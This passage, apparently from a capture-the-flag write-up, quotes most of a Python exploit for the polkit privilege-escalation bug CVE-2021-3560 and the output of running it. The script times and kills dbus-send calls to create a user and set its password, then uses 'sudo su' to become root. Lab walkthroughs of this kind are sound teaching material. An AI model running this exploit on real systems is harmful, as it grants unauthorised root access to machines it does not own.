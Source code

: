 ```py
		process.kill()
	except subprocess.TimeoutExpired:
    		#print('Timed out - killing', process.pid)
    		process.kill()

	user = subprocess.run(['id', 'ahmed'], stdout=subprocess.PIPE).stdout.decode('utf-8')
	if user.find("uid") != -1:
		print("[+] User Created with the name of ahmed")
		print("[+] Timed out at: "+str(Random))
		check =False
		break
	if counter > 2000:
		print("[-] Couldn't add the user, try again it may work")
		sys.exit(0)


for i in range(200):
	#print(i)
	uid = "/org/freedesktop/Accounts/User"+str(pwd.getpwnam('ahmed').pw_uid)

	#In case you need to put a password un-comment the code below and put your password after string:yourpassword'
	password = "string:"
	#res = subprocess.run(['openssl', 'passwd','-5',password], stdout=subprocess.PIPE).stdout.decode('utf-8')
	#password = f"string:{res.rstrip()}"

	process = subprocess.Popen(['dbus-send','--system','--dest=org.freedesktop.Accounts','--type=method_call','--print-reply',uid,'org.freedesktop.Accounts.User.SetPassword',password,'string:GoldenEye'])
	try:
    		#print('1 - Running in process', process.pid)
    		Random = random.uniform(0.006,0.009)
    		process.wait(timeout=Random)
    		process.kill()
	except subprocess.TimeoutExpired:
    		#print('Timed out - killing', process.pid)
    		process.kill()

print("[+] Timed out at: " + str(Random))
print("[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root ")

p = subprocess.call("(su ahmed -c 'sudo su')", shell=True)
```

Using this, we are able to switch to user "ahmed", then run *sudo su* to switch to root and capture the **root.txt** flag:<br><br>

```
python3 CVE-2021-3560.py 

**************
Exploit: Privilege escalation with polkit - CVE-2021-3560
Exploit code written by Ahmad Almorabea @almorabea
Original exploit author: Kevin Backhouse 
For more details check this out: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/
**************
[+] Starting the Exploit 
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
id: ‘ahmed’: no such user
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
id: ‘ahmed’: no such user
```